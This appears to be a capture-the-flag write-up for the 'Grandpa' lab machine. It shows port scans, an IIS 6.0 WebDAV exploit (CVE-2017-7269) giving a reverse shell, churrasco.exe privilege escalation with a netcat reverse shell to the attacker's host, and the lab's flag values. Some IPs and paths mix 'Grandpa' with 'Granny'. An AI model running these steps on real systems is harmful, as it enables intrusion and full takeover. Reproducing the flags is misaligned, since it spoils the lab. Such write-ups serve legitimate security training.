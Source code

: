 ![Grandpa.PNG](/assets/Machines/Easy/Grandpa/Grandpa.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.14
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.14
```

**Output**
```bash
PORT   STATE SERVICE
80/tcp open  http
```

3. Search more information about web page
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| nmap -sCV -p80 10.10.10.15 -oN version
```

**Output**
```bash
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Date: Sat, 14 Jan 2023 17:16:16 GMT
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|_  WebDAV type: Unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

In this case we can't upload any file, then we can search a exploit with IIS 6.0 [CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

4. Run the exploit with python2
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Grandpa]
└─| python2 iis.py 10.10.10.14 80 <Tun0 IP> 4444
```

**Output**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─| nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.15] 1032
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```


---
---
---
### **Privileges Escalation** 💀

1. Search information about Windows version

```bash
c:\windows\system32\inetsrv>systeminfo                                                                                                 
Host Name:GRANDPA
OS Name: Microsoft(R) Windows(R) Server 2003, Standard Edition
```

2. Search about privileges

```bash
c:\windows\system32\inetsrv>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

3. Search for any exploit uses **SeImpersonatePrivilege** and **Windows Server 2003** [Exploit](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

4. Download this executable and create again a **smbserver** and download in target machine.


* To download in target machine
```cmd
C:\WINDOWS\Temp\Exploit>copy \\10.10.14.29\Test\churrasco.exe churrasco.exe
```

5. Execute this exploit 
```bash
C:\WINDOWS\Temp\Exploit>.\churrasco.exe -d "whoami"

nt authority\system
```

6. Execute a commando to get a reverse shell how autority\system
```bash
C:\WINDOWS\Temp\Exploit>.\churrasco.exe -d "\\10.10.14.29\Test\nc.exe -e cmd 10.10.14.29 4444"
```

**Output**
```bash
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Granny]
└─# rlwrap nc -lvnp 4444               
listening on [any] 4444 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.10.15] 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```

7. Cat user and root flag
* User flag
```cmd
C:\Documents and Settings>type Harry\Desktop\user.txt
700c5dc163014e22b3e408f8703f67d1
```

* Root flag
```cmd
C:\Documents and Settings>type Administrator\Desktop\root.txt
aa4beed1c0584445ab463a6747bd06e9
```